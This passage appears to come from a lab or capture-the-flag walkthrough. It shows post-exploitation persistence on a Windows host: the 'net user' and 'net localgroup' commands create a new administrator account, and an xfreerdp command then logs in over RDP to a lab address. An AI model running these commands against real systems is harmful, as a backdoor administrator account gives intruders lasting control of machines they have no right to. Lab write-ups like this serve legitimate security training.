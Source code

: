 Achieve persistence via adding a new account for RDP/WinRM access:

```bash
# adding new user
net user Aisha Pass1234! /add

# adding the new user to the administrators group
net localgroup Administrators Aisha /add
```

<img width="841" height="300" alt="image" src="https://github.com/user-attachments/assets/5658c669-3516-4e8b-84d5-0a0f573a4a5b" />

Then login over RDP. 

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.95.11 /u:Aisha /p:'Pass1234!'

```

<img width="1851" height="865" alt="image" src="https://github.com/user-attachments/assets/58c0734a-d514-4263-bd00-05f561ad5788" />

